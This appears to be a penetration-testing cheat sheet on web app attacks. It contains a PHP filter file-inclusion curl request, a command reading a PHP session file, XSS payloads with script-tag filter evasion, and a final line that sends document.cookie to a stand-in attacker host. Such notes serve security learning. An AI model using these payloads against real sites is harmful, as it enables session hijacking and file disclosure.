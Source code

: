 # Web apps

## Command line GET & POST

    # curl -s "http://192.168.1.23/?lang=php://filter/convert.base64-encode/resource=fr"

    Curl options
    -s   : Avoid showing progress bar
    -D filename : Dump headers to a file, but - sends it to stdout
    -D - : Dump headers to a file, but - sends it to stdout
    -o /dev/null : Ignore response body


## HTTP authentication
HTTP also provides mechanisms to authenticate users. There are three methods available as part of the protocol:
- Basic Authentication: the username and password are encoded using base64 and sent using an Authorization header: 
    `Authorization: basic YWRtaW46YWRtaW4K.`
- Digest Authentication: the server sends a challenge (unique information to be used), the client responds to this challenge (hash information including the password provided by the user). This mechanism prevents the password from being sent unencrypted to the server.
- NTLM authentication: that is mostly used in the Microsoft world and is quite similar to Digest.


## Cookies

````http
    # curl <host> /sample_page.html HTTP/2.0
    HTTP/2.0 200 OK
    Content-type: text/html
    Set-Cookie: yummy_cookie=choco
    Set-Cookie: tasty_cookie=strawberry
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly

    GET /sample_page.html HTTP/2.0
    Host: www.example.org
    Cookie: yummy_cookie=choco; tasty_cookie=strawberry

    Note : Debian Php stores cookies at:
    # cat /var/lib/php5/sess_o8d7lr4p16d9gec7ofkdbnhm93
````



## XSS

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

### Basic
```html
<script>alert(1);</script>
```

### Filter : script tag
```html
<sRript>alert(1);</sCript>
<scr<script>ipt>alert(1);</sc</script>ript>
```
```
http://12.0.0.11/xss/example3.php?name=<scr<script>ipt>alert(1);</sc</script>ript>
http://12.0.0.11/xss/example3.php?name=%3Cscr%3Cscript%3Eipt%3Ealert(1);%3C/sc%3C/script%3Eript%3E
```






### Stole cookies
    (new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;

